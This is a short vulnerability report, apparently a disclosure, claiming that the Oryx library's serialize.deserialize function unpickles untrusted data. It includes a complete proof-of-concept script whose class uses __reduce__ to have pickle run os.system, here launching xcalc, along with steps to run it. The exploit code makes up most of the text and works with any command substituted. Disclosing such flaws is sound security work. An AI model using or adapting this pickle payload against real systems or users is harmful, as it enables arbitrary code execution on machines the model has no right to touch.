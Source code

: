 # Description
Oryx is a library for probabilistic programming and deep learning built on top of Jax. The approach is to expose a set of function transformations that compose and integrate with JAX's existing transformations 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install oryx')
from oryx.core import serialize
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
serialize.deserialize(dumps)
```
* `pip3 install oryx`
* `python3 exploit.py`
